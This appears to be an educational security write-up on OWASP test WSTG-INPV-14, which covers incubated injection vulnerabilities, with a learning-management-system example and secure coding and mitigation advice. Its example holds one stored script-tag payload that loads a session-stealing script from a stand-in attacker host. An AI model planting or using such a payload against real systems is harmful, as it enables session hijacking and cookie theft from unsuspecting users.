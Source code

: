 **WSTG-INPV-14**

Test Name----\> Testing for Incubated Vulnerability

Objectives---\> \- Identify injections that are stored and require a recall step to the stored injection.

\- Understand how a recall step could occur.

\- Set listeners or activate the recall step if possible.

**Overview-**

**Incubated Vulnerabilities** represent a particularly stealthy and delayed form of injection attack. Unlike traditional reflected or stored injections that cause immediate effects, incubated vulnerabilities require **two or more distinct steps**:

1. The attacker plants **malicious payloads** that are **not immediately executed**.

2. These payloads are later triggered by another process, user action, or system behavior—often **unexpectedly and outside the attacker’s direct control**.

The danger lies in their ability to **hide in plain sight**, slipping past basic input validation or detection mechanisms. These vulnerabilities often appear in systems where **data is transformed, re-used, or rendered** in different contexts—e.g., CMS systems, notification engines, reporting tools, or email renderers.

Because of the delayed nature of execution, tracking the root cause becomes much harder, and by the time the exploit surfaces, the attacker might have already exfiltrated data, altered content, or hijacked a session.

**Real World Example-**

**The Incident:**  
A popular learning management system allowed instructors to write rich-text notes for each student. These notes were saved in a database but never displayed directly to students. However, during the end-of-semester feedback email dispatch, the system **included these notes** inside personalized HTML-rich emails using a templating engine.

An attacker who was a student inserted the following into their assignment comment section (which got copied into the notes field):

\<script src\="https://evil.site/session-steal.js"\>\</script\>

Nothing happened immediately. However, during email generation at the end of the semester, this note was fetched from the database and embedded into the outgoing HTML email sent to the instructor. When the email was opened, the script executed, and the attacker successfully harvested session cookies from unsuspecting instructors.

**What Went Wrong:**

* The malicious payload was **stored safely**, but the vulnerability got **incubated** until the **right context (HTML rendering in email)** allowed execution.  
* There was **no output encoding or sanitization** at the time of reuse.  
* Developers didn’t foresee that **data reuse could change its context and risk profile**.

**How the Vulnerability occurs-**

Incubated vulnerabilities typically unfold in the following sequence:

1. **Injection Phase** – The attacker supplies crafted input that seems benign at the time. This data is **stored** (e.g., in a DB, log, or queue).

2. **Incubation Phase** – The data lies dormant in the system, potentially transformed or reinterpreted (e.g., stored as HTML, XML, or JSON).

3. **Recall Phase** – The system later **retrieves** and **renders** or **executes** this input in a different context, unintentionally triggering the payload.

This type of vulnerability thrives in systems that involve:

* **Email templating**

* **PDF/Excel/CSV generation**

* **Log parsing tools**

* **Markdown to HTML renderers**

* **Data migrations or exports to third-party systems**

Even if user input is sanitized initially, if it’s later reinterpreted by a different component (e.g., HTML email renderer, JavaScript frontend, shell command), it might become executable or dangerous.

**Secure Coding Recommendations-**

  **Apply contextual output encoding consistently**, not just during input. Use HTML, JavaScript, CSV, or JSON encoding depending on the output medium.

  **Treat stored data as untrusted** each time it is accessed. Just because you sanitized input once doesn’t mean it's safe when re-used.

  **Separate logic for storage and rendering.** Input validation should be distinct from output processing. Each rendering context deserves its own encoding/sanitization rules.

  **Use templating engines that auto-escape by default**, and avoid inline rendering of user-controlled fields unless absolutely necessary.

  **Deploy CSP (Content Security Policy)** headers to restrict what scripts can run on the page, even if one slips through.

  **Maintain logs of stored user input.** This helps in forensics when a delayed attack suddenly occurs.

  **Train developers and QA teams** to understand multi-phase threats like incubated payloads. Standard testing might not catch them if only immediate impact is observed.

**Mitigation Steps (Developer Focused)-**

  **Contextual Output Encoding:**  
Encode data **at output**, depending on where it's used (HTML, JS, CSV, XML, etc.). Use libraries that support context-aware escaping.

  **Assume All Stored Data Is Untrusted:**  
Don’t rely on initial validation alone. Each access or reuse of data must assume the data could be dangerous.

  **Implement Secure Templating Engines:**  
Use modern rendering engines that auto-escape content and prevent unsafe injection by default (e.g., Mustache, Jinja2 with autoescaping).

  **Limit HTML/JS Rendering in Emails:**  
Avoid dynamic HTML in emails unless absolutely required. Use plain-text versions wherever possible.

  **Input Normalization & Sanitization:**  
Normalize input to a consistent encoding format (like UTF-8) and sanitize it even before storage if the use case justifies it.

  **Monitor for Suspicious Recalls:**  
Set up anomaly detection for cases where stored input reappears in rendered contexts (e.g., HTML outputs, logs, emails).

  **Educate Teams About Multi-Step Exploits:**  
Ensure developers, QA testers, and security teams are aware that some payloads can be incubated and may only trigger in downstream processing.